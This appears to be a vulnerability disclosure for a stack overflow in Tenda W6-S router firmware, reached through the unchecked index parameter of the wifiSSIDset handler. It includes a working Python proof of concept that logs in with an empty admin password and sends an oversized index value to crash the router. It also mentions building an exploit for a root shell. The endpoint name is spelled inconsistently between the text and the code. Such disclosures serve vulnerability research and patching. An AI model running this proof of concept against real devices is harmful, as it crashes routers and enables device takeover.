 # Tenda W6-S V1.0.0.4(510) Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.tenda.com.cn/

- Firmware download address ： https://www.tenda.com.cn/download/detail-2627.html


## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W6-S/exeCommand/img/1.png)

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W6-S/wifiSSIDget/img/2.png)

In /goform/wifiSSIDset, when wl_radio is 0, the index will be spliced into v93 by sprintf. It is worth noting that there is no size check, which leads to a stack overflow vulnerability.

## Poc

```python
import requests

target_url = 'http://192.168.10.105/login/Auth'

target_headers = {'Host' : '192.168.10.105',
'Content-Length' : '65',
'Accept' : '*/*',
'X-Requested-With' : 'XMLHttpRequest',
'User-Agent' : 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36',
'Content-Type' : 'application/x-www-form-urlencoded; charset=UTF-8',
'Origin' : 'http://192.168.10.105',
'Referer' : 'http://192.168.10.105/main.html',
'Accept-Encoding' : 'gzip, deflate',
'Accept-Language' : 'en-US,en;q=0.9',
'Cookie' : 'user=',
'Connection' : 'close'}
p1 = 'usertype=admin&password=&time=2022;7;6;14;9;6&username='

requests.post(target_url, headers = target_headers, data = p1, verify = False, timeout = 1)

target_url = 'http://192.168.10.105/goform/wifiSSIDet'

target_headers = {'Host' : '192.168.10.105',
'Content-Length' : '295',
'Accept' : '*/*',
'X-Requested-With' : 'XMLHttpRequest',
'User-Agent' : 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36',
'Content-Type' : 'application/x-www-form-urlencoded; charset=UTF-8',
'Origin' : 'http://192.168.10.105',
'Referer' : 'http://192.168.10.105/main.html',
'Accept-Encoding' : 'gzip, deflate',
'Accept-Language' : 'en-US,en;q=0.9',
'Cookie' : 'user=',
'Connection' : 'close'}

p2 = 'wl_radio=0&index=' + 'a' * 0x3000
requests.post(target_url, headers = target_headers, data = p2, verify = False, timeout = 1)
```

After sending the poc, the router will crash, and finally we can write the exp to get the root shell
